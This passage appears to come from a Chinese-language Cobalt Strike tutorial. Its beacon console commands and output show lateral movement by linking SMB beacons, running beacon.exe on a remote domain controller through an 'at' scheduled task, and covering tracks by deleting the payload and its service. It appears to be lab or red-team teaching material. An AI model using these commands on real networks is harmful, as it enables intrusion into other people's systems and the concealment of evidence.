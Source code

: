 ```bash
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3816
        FLAGS              : 
        
beacon> link wintest
[*] Tasked to link to \\wintest\pipe\msagent_da00
[+] host called home, sent: 36 bytes
[+] established link to child beacon: 192.168.175.130
4、清除痕迹与服务

shell sc \\host delete name
beacon> shell del beacon.exe
[*] Tasked beacon to run: del beacon.exe
[+] host called home, sent: 57 bytes

beacon> shell del \\wintest\C$\windows\temp\beacon.exe
[*] Tasked beacon to run: del \\wintest\C$\windows\temp\beacon.exe
[+] host called home, sent: 83 bytes

beacon> shell sc \\wintest delete beacon
[*] Tasked beacon to run: sc \\wintest delete beacon
[+] host called home, sent: 69 bytes
[+] received output:
[SC] DeleteService 成功
执行文件（方法二）
```
1、生成 Windows EXE 并上传，注意这里生成的 EXE 和方法一生成的 EXE 是不一样的类型，这里生成的是Windows EXE，不是方法一中的Windows Service EXE

2、找到目标系统上的时间
```bash
shell net time \\host
beacon> shell net time \\windc
[*] Tasked beacon to run: net time \\windc
[+] host called home, sent: 49 bytes
[+] received output:
\\windc 的当前时间是 2020/8/30 14:54:09
命令成功完成。
```
3、创建一个计划任务
```bash
shell at \\host HH:mm C:\path\to\bad.exe
beacon> shell at \\windc 15:00 C:\windows\temp\beacon.exe
[*] Tasked beacon to run: at \\windc 15:00 C:\windows\temp\beacon.exe
[+] host called home, sent: 76 bytes
[+] received output:
```
新加了一项作业，其作业 ID = 1
4、当计划任务被执行时，执行 link hostname 即可上线主机
```bash
beacon> link windc
[*] Tasked to link to \\windc\pipe\msagent_d76a
[+] host called home, sent: 34 bytes
[+] established link to child beacon: 192.168.175.144
```
beacon 的自动操作
